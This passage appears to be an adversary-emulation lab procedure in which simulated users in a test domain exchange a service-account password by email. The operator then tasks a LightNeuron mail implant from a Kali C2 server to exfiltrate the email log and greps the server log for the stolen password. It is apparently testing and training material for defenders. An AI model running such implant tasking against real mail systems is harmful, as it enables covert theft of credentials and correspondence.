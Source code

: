 * Create a new email:
* The email recipient should be the user `egle@nk.local`
* The email subject should be `SAP Integration Issue`
* The following text should be pasted in as the email body:

   ```text
   Hi Egle,
   After our meeting earlier I spoke with Tenko about the SAP integration issue that was preventing the users from logging in. I did a little digging and noticed there is an authentication error on the SAP server.

   When you get a few minutes could you check to make sure the service account is still active and the credentials have not expired? The account name is SVC_SAP2.
   ```

* Send the email

:arrow_right: Switch to your RDP window to `Azuolas (10.100.40.103)` as `Egle`.

* Go to your Edge browser window. You should still be logged into OWA from earlier.

* You should see the email from `Zilvinas@nk.local`. Try reloading the page if needed.

* Reply to the email from Zilvinas.
* The following text should be pasted in as the email reply body:

   ```text
   Zilvinas,

   I just checked on the service account. It appears that the account was still active, but the password had expired. I've adjusted the settings for the account, so the password should not expire again.

   The new password is: dfsbH%T5RWf3bwq3aeGR$3%
   
   Let me know if this fixes the authentication issue.
   ```

* Send the email

:arrow_right: Return to the Kali C2 server lower terminal window. Task the LightNeuron implant to exfiltrate the email log file:

```bash
./evalsC2client.py --set-task info@nk.local '3 | 0'
```

* The file contents will be logged by the control server.
:heavy_exclamation_mark: Verify that exfil was logged by the control server by checking the terminal window with the server output or by checking the server log file. The logs should contain the password Egle sent to Zilvinas:

```bash
grep 'dfsbH%T5RWf3bwq3aeGR$3%' /opt/day2/turla/Resources/control_server/logs.txt
```

---

### :moyai: Source Code
